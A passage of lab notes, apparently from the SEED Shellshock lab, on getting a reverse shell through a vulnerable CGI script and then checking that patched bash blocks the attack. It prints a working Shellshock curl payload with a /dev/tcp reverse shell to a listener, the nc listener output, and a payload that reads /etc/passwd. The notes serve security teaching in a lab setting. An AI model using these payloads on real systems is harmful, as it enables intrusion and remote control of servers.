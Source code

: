     - in conclusion, the shellshock attack won't work with this method

## Task 4: Getting a Reverse Shell via Shellshock Attack
- exploit shellshock vulnerability and get this command to run: `/bin/bash -i >& /dev/tcp/10.9.0.1/9875 0>&1`
- on the attacker's machine, listen to the port `9875`, then exploit the vulnerability:
    ```
    $ curl www.seedlab-shellshock.com/cgi-bin/vul.cgi -H "F: () { echo "1";}; echo; /bin/bash -i >& /dev/tcp/10.9.0.1/9875 0>&1;"
    ```
    ```
    $ nc -l 9875
    www-data@569599de80eb:/usr/lib/cgi-bin$ <---- get a shell
    ```

## Task 5: Using the Patched Bash
- use a patched bash program, replace the first line of the CGI program (`#!/bin/bash_shellshock` -> `#!/bin/bash`)
- try the attack in task `3`, it doesn't work anymore
    ```
    $ curl www.seedlab-shellshock.com/cgi-bin/vul.cgi -H "F: () { echo "x";}; echo Content_type: text/plain; echo; /bin/cat /etc/passwd"

    Hello World
    ```
